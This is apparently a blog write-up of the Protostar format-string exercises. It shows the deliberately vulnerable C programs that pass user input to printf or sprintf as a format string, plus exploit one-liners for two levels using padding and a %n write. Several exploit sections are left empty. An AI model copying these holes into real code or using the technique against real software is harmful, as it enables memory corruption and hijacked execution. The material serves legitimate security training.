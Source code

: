 ```yaml
---
layout: post
title:  "Exploit Excersises Protostar Format"
date:   2020-1-10 0:06:00 +0000
categories: Exploit-Excersises
---
```

In this series ill be covering the protostar excersises from exploit-excersises / exploit.education. Its a series of challenges designed to teach common linux exploits that will occur in CTF challenges.
Protostar introduces a range of things in a way that takes it from introductory to more advanced:
- Network programming
- Byte order
- Handling sockets
- Stack overflows
- Format strings
- Heap overflows


# Format Zero
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
{% endhighlight %}

Vulnerability

Exploit:
{% highlight bash %}
./format0 $(python -c "print 'A'*64 + '\xef\xbe\xad\xde'")
{% endhighlight %}
# Format One
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
{% endhighlight %}

Vulnerability
Exploit:
{% highlight bash %}

{% endhighlight %}
# Format Two
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Vulnerability

Exploit:
{% highlight bash %}
$ python -c 'print "\xe4\x96\x04\x08%60d%4$n"' | ./format2
                                                         512
you have modified the target :)
{% endhighlight %}
# Format Three
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Vulnerability
Exploit:
{% highlight bash %}
{% endhighlight %}
# Format Four
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Vulnerability
Still the printf on line 20, but this time we need to use our overwrite capabilities to control the program flow and call the uncalled hello function. Basically like an overflow. 
Exploit:
{% highlight bash %}
{% endhighlight %}
<br>
Thats it for the format series of exercises. Next is the heap stuff.
<br>
Exploit-Exercises: 
 - [Stack](link)
 - [Format](link)
 - [Heap](link)
 - [Net](link)
 - [Final](link)


